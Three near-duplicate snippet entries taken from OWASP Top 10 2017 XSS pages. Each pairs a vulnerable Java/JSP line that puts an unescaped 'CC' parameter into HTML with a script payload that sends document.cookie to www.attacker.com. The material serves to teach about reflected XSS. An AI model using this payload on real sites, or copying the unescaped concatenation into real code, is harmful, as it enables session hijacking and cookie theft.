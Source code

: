TITLE: Example XSS Attack Scenario: Session Hijacking
DESCRIPTION: Demonstrates a reflected XSS attack where an attacker injects malicious JavaScript into an HTML input field to steal a user's session ID. The application fails to validate or escape user input before including it in the HTML output, leading to a session hijacking vulnerability.
SOURCE: https://github.com/owasp/top10/blob/master/2017/ro/0xa7-xss.md#_snippet_0

LANGUAGE: Pseudo-code
CODE:
```
(String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";
```

LANGUAGE: JavaScript
CODE:
```
'><script>document.location='http://www.attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'
```

----------------------------------------

TITLE: Illustrating Reflected XSS Vulnerability and Exploit
DESCRIPTION: This snippet shows a vulnerable Java/JSP-like code line that concatenates unvalidated user input directly into HTML, leading to a Reflected XSS vulnerability. The accompanying attacker payload demonstrates how malicious JavaScript can be injected to steal session cookies.
SOURCE: https://github.com/owasp/top10/blob/master/2017/OWASP-Top-10-2017-pt-br.html#_snippet_5

LANGUAGE: Java
CODE:
```
(String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + ">";
```

LANGUAGE: JavaScript
CODE:
```
'><script>document.location='http://www.attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'
```

----------------------------------------

TITLE: Demonstrating Reflected XSS via Unescaped Input
DESCRIPTION: This scenario illustrates how an application vulnerable to reflected XSS can be exploited. It shows a Java/JSP-like code snippet that concatenates unvalidated user input directly into an HTML attribute, allowing an attacker to inject malicious JavaScript to steal session cookies.
SOURCE: https://github.com/owasp/top10/blob/master/2017/en/0xa7-xss.md#_snippet_0

LANGUAGE: Java/JSP
CODE:
```
(String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";
```

LANGUAGE: JavaScript
CODE:
```
'><script>document.location='http://www.attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'
```
